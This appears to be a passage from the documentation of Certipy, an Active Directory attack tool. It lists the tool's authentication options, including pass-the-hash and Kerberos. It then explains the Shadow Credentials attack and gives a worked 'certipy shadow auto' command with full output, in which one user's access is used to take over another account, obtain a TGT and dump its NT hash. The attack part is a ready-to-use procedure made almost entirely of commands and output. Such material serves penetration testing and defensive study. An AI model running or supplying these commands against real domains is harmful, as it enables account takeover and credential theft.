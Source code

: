 ```
output options:
  -out output file name

connection options:
  -scheme ldap scheme
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -target dns/ip address
                        DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -u username@domain, -username username@domain
                        Username. Format: username@domain
  -p password, -password password
                        Password
  -hashes [LMHASH:]NTHASH
                        NTLM hash, format is [LMHASH:]NTHASH
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -sspi                 Use Windows Integrated Authentication (SSPI)
  -aes hex key          AES key to use for Kerberos Authentication (128 or 256 bits)
  -no-pass              Don't ask for password (useful for -k and -sspi)
```

In short, the Shadow Credentials attack is performed by adding a new "Key Credential" to the target account. The Key Credential can then be used with the PKINIT Kerberos extension for authentication.

Certipy's `shadow` command has an `auto` action, which will add a new Key Credential to the target account, authenticate with the Key Credential to retrieve the NT hash and a TGT for the target, and finally restore the old Key Credential attribute.

```bash
$ certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'Jane'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '00f38738-288e-4c85-479a-a6313ab46fe6'
[*] Adding Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Successfully added Key Credential with device ID '00f38738-288e-4c85-479a-a6313ab46fe6' to the Key Credentials for 'Jane'
[*] Authenticating as 'Jane' with the certificate
[*] Using principal: jane@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'jane.ccache'
[*] Trying to retrieve NT hash for 'jane'
[*] Restoring the old Key Credentials for 'Jane'
[*] Successfully restored the old Key Credentials for 'Jane'
[*] NT hash for 'Jane': a87f3a337d73085c45f9416be5787d86
```
